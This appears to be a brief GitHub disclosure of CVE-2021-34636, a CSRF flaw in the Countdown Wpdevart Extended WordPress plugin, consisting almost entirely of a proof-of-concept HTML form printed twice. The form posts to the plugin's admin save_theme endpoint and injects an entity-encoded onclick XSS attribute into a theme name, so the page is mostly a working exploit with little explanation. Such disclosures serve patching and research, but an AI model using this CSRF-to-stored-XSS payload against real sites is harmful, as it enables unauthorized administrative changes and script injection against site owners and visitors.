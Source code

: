 <h2>CVE-2021-34636</h2>

The Countdown Wpdevart Extended 1.4.7 and below plugin for WordPress allows multiple  CSRF,You can even create themes with xss payload through csrf.

Hyperlink:<br>
`https://cn.wordpress.org/plugins/countdown-wpdevart-extended/#description `

POC:<br>

<html>
  <body>
    <form action="http://ip:port/wp-admin/admin.php?page=wpda_contdown_extend_themes&task=save_theme" method="POST">
      <input type="hidden" name="name" value="test123&quot;&#32;onclick&#61;alert&#40;&#47;xss&#47;&#41;&#32;a&#61;&quot;" />
      <input type="hidden" name="countdown&#95;type" value="standart" />
      <input type="hidden" name="countdown&#95;global&#95;width" value="100" />
      <input type="hidden" name="countdown&#95;global&#95;width&#95;metrick" value="&#37;" />
      <input type="hidden" name="countdown&#95;horizontal&#95;position" value="center" />
      <input type="hidden" name="countdown&#95;date&#95;display&#91;day&#93;" value="day" />
      <input type="hidden" name="countdown&#95;date&#95;display&#91;hour&#93;" value="hour" />
      <input type="hidden" name="countdown&#95;date&#95;display&#91;minut&#93;" value="minut" />
      <input type="hidden" name="countdown&#95;date&#95;display&#91;second&#93;" value="second" />
      <input type="hidden" name="countdown&#95;text&#95;type" value="po&#95;mo" />
      <input type="hidden" name="text&#95;for&#95;weeks" value="Weeks" />
      <input type="hidden" name="text&#95;for&#95;day" value="Days" />
      <input type="hidden" name="text&#95;for&#95;hour" value="Hours" />
      <input type="hidden" name="text&#95;for&#95;minute" value="Minutes" />
      <input type="hidden" name="text&#95;for&#95;second" value="Seconds" />
      <input type="hidden" name="countdown&#95;standart&#95;elements&#95;width" value="100" />
      <input type="hidden" name="countdown&#95;standart&#95;elements&#95;distance" value="7" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;font&#95;size" value="24" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;font&#95;size" value="11" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;padding&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;padding&#91;right&#93;" value="5" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;padding&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;padding&#91;left&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;padding&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;padding&#91;right&#93;" value="5" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;padding&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;padding&#91;left&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;margin&#91;top&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;margin&#91;right&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;margin&#91;bottom&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;margin&#91;left&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;margin&#91;top&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;margin&#91;right&#93;" value="10" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;margin&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;margin&#91;left&#93;" value="10" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;border&#95;width" value="1" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;border&#95;width" value="1" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;border&#95;radius" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;border&#95;radius" value="6" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;bg&#95;color" value="&#35;dff5f9" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;bg&#95;color" value="&#35;FFFFFF" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;color" value="&#35;1e73be" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;color" value="&#35;212121" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;font&#95;famely" value="Trebuchet&#32;MS&#44;Lucida&#32;Grande&#44;Lucida&#32;Sans&#32;Unicode&#44;Lucida&#32;Sans&#44;Arial&#44;sans&#45;serif" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;font&#95;famely" value="Segoe&#32;UI" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;border&#95;color" value="&#35;1e73be" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;border&#95;color" value="&#35;000000" />
      <input type="hidden" name="countdown&#95;standart&#95;display&#95;inline" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;gorup&#95;animation" value="one" />
      <input type="hidden" name="countdown&#95;standart&#95;animation&#95;type" value="random" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;font&#95;size" value="35" />
      <input type="hidden" name="countdown&#95;vertical&#95;elements&#95;distance" value="12" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;font&#95;famely" value="Rockwell&#44;&#32;Arial&#32;Black&#44;&#32;Arial&#32;Bold&#44;&#32;Arial&#44;&#32;sans&#45;serif" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;color" value="&#35;000000" />
      <input type="hidden" name="countdown&#95;vertical&#95;background&#95;color" value="&#35;79eef2" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;border&#95;width" value="1" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;border&#95;color" value="&#35;1eacbc" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;bg&#95;color" value="&#35;FFFFFF" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;font&#95;size" value="13" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;color" value="&#35;000000" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;font&#95;famely" value="Palatino&#32;Linotype&#44;Palatino&#44;Georgia&#44;Times&#32;New&#32;Roman&#44;Times&#44;serif" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;padding&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;padding&#91;right&#93;" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;padding&#91;bottom&#93;" value="2" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;padding&#91;left&#93;" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;margin&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;margin&#91;right&#93;" value="3" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;margin&#91;bottom&#93;" value="5" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;margin&#91;left&#93;" value="3" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;border&#95;width" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;border&#95;radius" value="6" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;border&#95;color" value="&#35;0c0c0c" />
      <input type="hidden" name="countdown&#95;vertical&#95;display&#95;inline" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;gorup&#95;animation" value="one" />
      <input type="hidden" name="countdown&#95;vertical&#95;animation&#95;type" value="random" />
      <input type="hidden" name="countdown&#95;circle&#95;elements&#95;width&#95;height" value="115" />
      <input type="hidden" name="countdown&#95;circle&#95;elements&#95;distance" value="5" />
      <input type="hidden" name="countdown&#95;circle&#95;background&#95;color" value="&#35;b3e2e2" />
      <input type="hidden" name="countdown&#95;circle&#95;background&#95;color&#95;opacity" value="100" />
      <input type="hidden" name="countdown&#95;circle&#95;border&#95;color&#95;outside" value="&#35;ededed" />
      <input type="hidden" name="countdown&#95;circle&#95;border&#95;color&#95;inside" value="&#35;0bd9e8" />
      <input type="hidden" name="countdown&#95;circle&#95;width&#95;parcents" value="9" />
      <input type="hidden" name="countdown&#95;circle&#95;type&#95;of&#95;rounding" value="round" />
      <input type="hidden" name="countdown&#95;circle&#95;border&#95;direction" value="right" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;font&#95;size" value="40" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;font&#95;size" value="17" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;color" value="&#35;000000" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;color" value="&#35;39417d" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;font&#95;famely" value="American&#32;Typewriter&#44;Georgia&#44;serif" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;font&#95;famely" value="Constantia&#44;Georgia&#44;Times&#32;New&#32;Roman&#44;Times&#44;serif" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;margin&#91;top&#93;" value="10" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;margin&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;padding&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;padding&#91;right&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;padding&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;padding&#91;left&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;margin&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;margin&#91;bottom&#93;" value="24" />
      <input type="hidden" name="countdown&#95;circle&#95;display&#95;inline" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;gorup&#95;animation" value="one" />
      <input type="hidden" name="countdown&#95;circle&#95;animation&#95;type" value="random" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
<html>
  <body>
    <form action="http://ip:port/wp-admin/admin.php?page=wpda_contdown_extend_themes&task=save_theme" method="POST">
      <input type="hidden" name="name" value="test123&quot;&#32;onclick&#61;alert&#40;&#47;xss&#47;&#41;&#32;a&#61;&quot;" />
      <input type="hidden" name="countdown&#95;type" value="standart" />
      <input type="hidden" name="countdown&#95;global&#95;width" value="100" />
      <input type="hidden" name="countdown&#95;global&#95;width&#95;metrick" value="&#37;" />
      <input type="hidden" name="countdown&#95;horizontal&#95;position" value="center" />
      <input type="hidden" name="countdown&#95;date&#95;display&#91;day&#93;" value="day" />
      <input type="hidden" name="countdown&#95;date&#95;display&#91;hour&#93;" value="hour" />
      <input type="hidden" name="countdown&#95;date&#95;display&#91;minut&#93;" value="minut" />
      <input type="hidden" name="countdown&#95;date&#95;display&#91;second&#93;" value="second" />
      <input type="hidden" name="countdown&#95;text&#95;type" value="po&#95;mo" />
      <input type="hidden" name="text&#95;for&#95;weeks" value="Weeks" />
      <input type="hidden" name="text&#95;for&#95;day" value="Days" />
      <input type="hidden" name="text&#95;for&#95;hour" value="Hours" />
      <input type="hidden" name="text&#95;for&#95;minute" value="Minutes" />
      <input type="hidden" name="text&#95;for&#95;second" value="Seconds" />
      <input type="hidden" name="countdown&#95;standart&#95;elements&#95;width" value="100" />
      <input type="hidden" name="countdown&#95;standart&#95;elements&#95;distance" value="7" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;font&#95;size" value="24" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;font&#95;size" value="11" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;padding&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;padding&#91;right&#93;" value="5" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;padding&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;padding&#91;left&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;padding&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;padding&#91;right&#93;" value="5" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;padding&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;padding&#91;left&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;margin&#91;top&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;margin&#91;right&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;margin&#91;bottom&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;margin&#91;left&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;margin&#91;top&#93;" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;margin&#91;right&#93;" value="10" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;margin&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;margin&#91;left&#93;" value="10" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;border&#95;width" value="1" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;border&#95;width" value="1" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;border&#95;radius" value="2" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;border&#95;radius" value="6" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;bg&#95;color" value="&#35;dff5f9" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;bg&#95;color" value="&#35;FFFFFF" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;color" value="&#35;1e73be" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;color" value="&#35;212121" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;font&#95;famely" value="Trebuchet&#32;MS&#44;Lucida&#32;Grande&#44;Lucida&#32;Sans&#32;Unicode&#44;Lucida&#32;Sans&#44;Arial&#44;sans&#45;serif" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;font&#95;famely" value="Segoe&#32;UI" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;border&#95;color" value="&#35;1e73be" />
      <input type="hidden" name="countdown&#95;standart&#95;time&#95;text&#95;border&#95;color" value="&#35;000000" />
      <input type="hidden" name="countdown&#95;standart&#95;display&#95;inline" value="0" />
      <input type="hidden" name="countdown&#95;standart&#95;gorup&#95;animation" value="one" />
      <input type="hidden" name="countdown&#95;standart&#95;animation&#95;type" value="random" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;font&#95;size" value="35" />
      <input type="hidden" name="countdown&#95;vertical&#95;elements&#95;distance" value="12" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;font&#95;famely" value="Rockwell&#44;&#32;Arial&#32;Black&#44;&#32;Arial&#32;Bold&#44;&#32;Arial&#44;&#32;sans&#45;serif" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;color" value="&#35;000000" />
      <input type="hidden" name="countdown&#95;vertical&#95;background&#95;color" value="&#35;79eef2" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;border&#95;width" value="1" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;border&#95;color" value="&#35;1eacbc" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;bg&#95;color" value="&#35;FFFFFF" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;font&#95;size" value="13" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;color" value="&#35;000000" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;font&#95;famely" value="Palatino&#32;Linotype&#44;Palatino&#44;Georgia&#44;Times&#32;New&#32;Roman&#44;Times&#44;serif" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;padding&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;padding&#91;right&#93;" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;padding&#91;bottom&#93;" value="2" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;padding&#91;left&#93;" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;margin&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;margin&#91;right&#93;" value="3" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;margin&#91;bottom&#93;" value="5" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;margin&#91;left&#93;" value="3" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;border&#95;width" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;border&#95;radius" value="6" />
      <input type="hidden" name="countdown&#95;vertical&#95;time&#95;text&#95;border&#95;color" value="&#35;0c0c0c" />
      <input type="hidden" name="countdown&#95;vertical&#95;display&#95;inline" value="0" />
      <input type="hidden" name="countdown&#95;vertical&#95;gorup&#95;animation" value="one" />
      <input type="hidden" name="countdown&#95;vertical&#95;animation&#95;type" value="random" />
      <input type="hidden" name="countdown&#95;circle&#95;elements&#95;width&#95;height" value="115" />
      <input type="hidden" name="countdown&#95;circle&#95;elements&#95;distance" value="5" />
      <input type="hidden" name="countdown&#95;circle&#95;background&#95;color" value="&#35;b3e2e2" />
      <input type="hidden" name="countdown&#95;circle&#95;background&#95;color&#95;opacity" value="100" />
      <input type="hidden" name="countdown&#95;circle&#95;border&#95;color&#95;outside" value="&#35;ededed" />
      <input type="hidden" name="countdown&#95;circle&#95;border&#95;color&#95;inside" value="&#35;0bd9e8" />
      <input type="hidden" name="countdown&#95;circle&#95;width&#95;parcents" value="9" />
      <input type="hidden" name="countdown&#95;circle&#95;type&#95;of&#95;rounding" value="round" />
      <input type="hidden" name="countdown&#95;circle&#95;border&#95;direction" value="right" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;font&#95;size" value="40" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;font&#95;size" value="17" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;color" value="&#35;000000" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;color" value="&#35;39417d" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;font&#95;famely" value="American&#32;Typewriter&#44;Georgia&#44;serif" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;font&#95;famely" value="Constantia&#44;Georgia&#44;Times&#32;New&#32;Roman&#44;Times&#44;serif" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;margin&#91;top&#93;" value="10" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;margin&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;padding&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;padding&#91;right&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;padding&#91;bottom&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;padding&#91;left&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;margin&#91;top&#93;" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;time&#95;text&#95;margin&#91;bottom&#93;" value="24" />
      <input type="hidden" name="countdown&#95;circle&#95;display&#95;inline" value="0" />
      <input type="hidden" name="countdown&#95;circle&#95;gorup&#95;animation" value="one" />
      <input type="hidden" name="countdown&#95;circle&#95;animation&#95;type" value="random" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
